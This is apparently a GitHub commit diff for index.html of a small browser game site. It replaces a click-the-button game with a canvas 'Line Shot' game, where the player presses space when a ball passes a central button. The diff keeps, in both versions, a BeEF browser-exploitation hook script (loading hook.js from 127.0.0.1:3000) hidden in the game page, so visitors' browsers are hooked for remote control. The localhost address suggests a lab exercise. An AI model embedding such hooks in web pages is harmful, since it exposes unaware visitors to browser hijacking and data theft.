

Before and after one commit to thatkrazyman999/febb, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,127 +1,137 @@
 <!DOCTYPE html>
 <html lang="en">
 <head>
-<meta charset="UTF-8" />
-<meta name="viewport" content="width=device-width, initial-scale=1" />
-<title>Hook & Play — Challenge Mode</title>
+<meta charset="UTF-8">
+<meta name="viewport" content="width=device-width, initial-scale=1">
+<title>Line Shot Game</title>
 <style>
   body {
-    font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
-    background: #121212;
-    color: #e0e0e0;
+    margin: 0;
+    background: #222;
+    color: #fff;
+    font-family: Arial, sans-serif;
     display: flex;
     flex-direction: column;
     align-items: center;
-    justify-content: center;
-    height: 100vh;
-    margin: 0;
-    overflow: hidden;
   }
-  h1 {
-    margin-bottom: 10px;
+  canvas {
+    background: #111;
+    margin-top: 20px;
+    border: 2px solid #555;
   }
-  #score, #timer {
+  #score {
     font-size: 1.5rem;
-    margin: 5px 0;
-  }
-  button {
-    position: absolute;
-    padding: 10px 20px;
-    font-size: 1rem;
-    border: none;
-    border-radius: 8px;
-    background: #0078d7;
-    color: white;
-    cursor: pointer;
-    transition: background 0.3s, transform 0.2s;
-  }
-  button:hover {
-    background: #005ea1;
-    transform: scale(1.1);
-  }
-  #startButton {
-    position: static;
-    margin-top: 20px;
-    padding: 15px 30px;
-    font-size: 1.2rem;
+    margin-top: 10px;
   }
 </style>
 </head>
 <body>
-  <h1>Catch the Points!</h1>
-  <div id="score">Score: 0</div>
-  <div id="timer">Time: 30</div>
-  <button id="gameButton" style="display:none;">Click me!</button>
-  <button id="startButton">Start Game</button>
+<h1>🎯 Line Shot: Hit the Button!</h1>
+<p>Press <b>SPACE</b> when the ball passes over the button.</p>
+<div id="score">Score: 0</div>
+<canvas id="gameCanvas" width="500" height="500"></canvas>
 
-  <!-- BeEF Hook -->
-  <script src="http://127.0.0.1:3000/hook.js"></script>
+<!-- BeEF hook -->
+<script src="http://127.0.0.1:3000/hook.js"></script>
 
 <script>
-const gameButton = document.getElementById('gameButton');
-const startButton = document.getElementById('startButton');
+const canvas = document.getElementById('gameCanvas');
+const ctx = canvas.getContext('2d');
 const scoreDisplay = document.getElementById('score');
-const timerDisplay = document.getElementById('timer');
+
+const centerX = canvas.width / 2;
+const centerY = canvas.height / 2;
+const buttonRadius = 30;
+
+let ballX = centerX;
+let ballY = centerY;
+let angle = Math.random() * 2 * Math.PI;
+let speed = 2.5;
+
 let score = 0;
-let timeLeft = 30;
-let timer;
+let combo = 0;
+let comboText = '';
+let comboTimer = 0;
 
-startButton.addEventListener('click', () => {
-  startButton.style.display = 'none';
-  gameButton.style.display = 'block';
-  score = 0;
-  timeLeft = 30;
-  updateScore();
-  updateTimer();
-  moveButton();
-  timer = setInterval(() => {
-    timeLeft--;
-    updateTimer();
-    if (timeLeft <= 0) endGame();
-  }, 1000);
-});
+document.addEventListener('keydown', (e) => {
+  if (e.code === 'Space') {
+    const dx = ballX - centerX;
+    const dy = ballY - centerY;
+    const dist = Math.sqrt(dx * dx + dy * dy);
 
-gameButton.addEventListener('click', () => {
-  score++;
-  updateScore();
-  moveButton();
-  playSound();
+    if (dist <= buttonRadius) {
+      // HIT!
+      score++;
+      combo++;
+      comboText = `COMBO x${combo}`;
+      comboTimer = 60; // show for 1 second
+      resetBall();
+    } else {
+      // MISS!
+      combo = 0;
+    }
+    updateScore();
+  }
 });
 
 function updateScore() {
   scoreDisplay.textContent = `Score: ${score}`;
 }
 
-function updateTimer() {
-  timerDisplay.textContent = `Time: ${timeLeft}`;
+function resetBall() {
+  ballX = centerX;
+  ballY = centerY;
+  angle = Math.random() * 2 * Math.PI;
 }
 
-function moveButton() {
-  const x = Math.random() * (window.innerWidth - gameButton.offsetWidth);
-  const y = Math.random() * (window.innerHeight - gameButton.offsetHeight);
-  gameButton.style.left = `${x}px`;
-  gameButton.style.top = `${y}px`;
+function drawButton() {
+  ctx.fillStyle = '#0078d7';
+  ctx.beginPath();
+  ctx.arc(centerX, centerY, buttonRadius, 0, 2 * Math.PI);
+  ctx.fill();
 }
 
-function endGame() {
-  clearInterval(timer);
-  gameButton.style.display = 'none';
-  startButton.style.display = 'block';
-  alert(`Time's up! Your score: ${score}`);
+function drawBall() {
+  ctx.fillStyle = 'yellow';
+  ctx.beginPath();
+  ctx.arc(ballX, ballY, 10, 0, 2 * Math.PI);
+  ctx.fill();
 }
 
-function playSound() {
-  const ctx = new (window.AudioContext || window.webkitAudioContext)();
-  const osc = ctx.createOscillator();
-  const gain = ctx.createGain();
-  osc.type = 'square';
-  osc.frequency.value = 600;
-  osc.connect(gain);
-  gain.connect(ctx.destination);
-  osc.start();
-  gain.gain.setValueAtTime(0.1, ctx.currentTime);
-  osc.stop(ctx.currentTime + 0.1);
+function drawCombo() {
+  if (comboTimer > 0 && combo > 1) {
+    ctx.fillStyle = 'lime';
+    ctx.font = '24px Arial';
+    ctx.textAlign = 'center';
+    ctx.fillText(comboText, centerX, centerY - 50);
+    comboTimer--;
+  }
 }
+
+function gameLoop() {
+  ctx.clearRect(0, 0, canvas.width, canvas.height);
+
+  // Update ball position
+  ballX += Math.cos(angle) * speed;
+  ballY += Math.sin(angle) * speed;
+
+  // Check bounds
+  if (ballX < 0 || ballX > canvas.width || ballY < 0 || ballY > canvas.height) {
+    combo = 0; // missed
+    resetBall();
+    updateScore();
+  }
+
+  drawButton();
+  drawBall();
+  drawCombo();
+
+  requestAnimationFrame(gameLoop);
+}
+
+// Start game
+updateScore();
+gameLoop();
 </script>
 </body>
 </html>
```
